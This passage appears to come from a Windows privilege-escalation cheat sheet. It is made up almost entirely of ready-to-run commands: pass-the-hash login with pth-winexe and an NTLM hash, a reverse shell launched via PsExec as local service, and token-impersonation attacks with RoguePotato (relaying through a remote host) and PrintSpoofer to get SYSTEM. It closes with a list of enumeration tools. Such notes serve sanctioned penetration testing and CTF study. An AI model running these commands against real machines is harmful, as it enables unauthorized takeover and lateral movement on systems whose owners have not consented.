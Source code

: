 ```powershell
C:\Cas> pth-winexe -U '<NTLM hash>' //<IP> cmd.exe
```

## Token Impersonation

### Rogue Potato

??? info "info"
If the machine is >= Windows 10 1809 & Windows Server 2019 — Try Rogue Potato  
 If the machine is < Windows 10 1809 < Windows Server 2019 — Try Juicy Potato

Get reverse shell of local service

```powershell
C:\Cas> PsExec64.exe -i -u "nt authority\local service" C:\Cas\shell.exe
```

_“If you have SeAssignPrimaryToken or SeImpersonateprivilege, you are SYSTEM”_

```powershell
C:\Cas> .\RoguePotato.exe -r <remote-host> -e "C:\Cas\shell.exe" -l 443
```

### PrintSpoofer

```powershell
C:\Cas> PrintSpoofer.exe -c shell.exe -i
```

## Automated Enumeration

- _windows-privesc-check_

- _winPEASany_ofs.exe_
